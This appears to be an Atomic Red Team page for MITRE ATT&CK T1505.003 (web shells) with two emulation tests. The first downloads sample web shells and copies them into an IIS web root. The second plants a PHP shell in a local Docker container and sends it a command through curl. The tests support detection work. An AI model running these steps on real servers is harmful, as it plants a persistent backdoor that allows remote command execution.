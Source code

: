 # T1505.003 - Server Software Component: Web Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/003)
<blockquote>Adversaries may backdoor web servers with web shells to establish persistent access to systems. A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server.(Citation: volexity_0day_sophos_FW)

In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (e.g. [China Chopper](https://attack.mitre.org/software/S0020) Web shell client).(Citation: Lee 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)

- [Atomic Test #2 - Invoke Web Shell in Dockerized PHP Server](#atomic-test-2---invoke-web-shell-in-dockerized-php-server)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows


**auto_generated_guid:** 0a2ce662-1efa-496f-a472-2fe7b080db16





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1505.003&#92;src|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy /I /Y "#{web_shells}" #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path}\b.jsp /q >nul 2>&1
del #{web_shell_path}\tests.jsp /q >nul 2>&1
del #{web_shell_path}\cmd.aspx /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{web_shells}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "#{web_shells}" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/tests.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
<br/>

## Atomic Test #2 - Invoke Web Shell in Dockerized PHP Server
Starts a PHP server using Docker, copies a web shell into it, invokes the web shell to achieve remote code execution (RCE), and then stops the container.

**Supported Platforms:** Linux


**auto_generated_guid:** 98765432-dcba-4321-fe00-1234567890ab





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder/T1505.003/src|
| web_shell_cmd | The command to execute from web shell | string | sh -c 'echo T1505.003 - hello from webshell'|


#### Attack Commands: Run with `bash`! 


```bash
mkdir -p /tmp/t1505_003

docker stop web_shell_test 2>/dev/null || : 
# TODO: build image locally
docker run --rm --name t1505_003_container -d -p 127.0.0.1:8080:80 -v "/tmp/t1505_003:/htdocs" eriksoderblom/alpine-apache-php:24.01

cp #{web_shells}/shell.php /tmp/t1505_003/shell.php

# Wait for PHP server to get ready
sleep 3

# Host can be configured via HTTP_SERVER_NAME / HTTPS_SERVER_NAME
# See details at https://github.com/eriksoderblom/alpine-apache-php
curl http://127.0.0.1:8080/shell.php -H 'Host: www.example.com' \
  -G --data-urlencode "cmd=#{web_shell_cmd}"


docker stop t1505_003_container
```

#### Cleanup Commands:
```bash
rm -r /tmp/t1505_003
docker rmi eriksoderblom/alpine-apache-php:24.01
```



#### Dependencies:  Run with `bash`!
##### Description: Requires Docker to be installed and the user to have permissions to use Docker.
##### Check Prereq Commands:
```bash
type docker
```
##### Get Prereq Commands:
```bash
echo "Install Docker from https://docs.docker.com/get-docker/"
```




<br/>
